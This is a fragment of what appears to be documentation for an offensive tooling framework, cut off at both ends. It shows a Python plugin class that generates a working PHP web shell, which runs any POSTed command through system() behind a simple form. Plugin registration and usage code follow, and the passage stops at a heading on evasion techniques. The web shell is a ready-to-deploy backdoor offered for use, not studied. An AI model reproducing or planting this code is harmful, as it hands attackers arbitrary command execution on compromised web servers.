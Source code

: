 ```python
    
    def __init__(self):
        super().__init__("WebShell", "1.0")
    
    def generate_payload(self, language="php", **kwargs):
        """Generate web shell payload."""
        
        if language == "php":
            return self._generate_php_shell(**kwargs)
        elif language == "jsp":
            return self._generate_jsp_shell(**kwargs)
        else:
            raise ValueError(f"Unsupported language: {language}")
    
    def _generate_php_shell(self, **kwargs):
        """Generate PHP web shell."""
        php_shell = """<?php
if(isset($_POST['cmd'])){
    echo "<pre>";
    $cmd = ($_POST['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
<form method="post">
<input type="text" name="cmd" placeholder="Command">
<input type="submit" value="Execute">
</form>"""
        
        return php_shell

# Plugin registration
PLUGINS = {
    'webshell': WebShellPlugin(),
    # Add more plugins here
}

def load_plugin(name):
    """Load plugin by name."""
    if name in PLUGINS:
        return PLUGINS[name]
    else:
        raise ValueError(f"Plugin not found: {name}")

# Usage
webshell_plugin = load_plugin('webshell')
php_payload = webshell_plugin.generate_payload(language="php")
```

### Custom Evasion Techniques

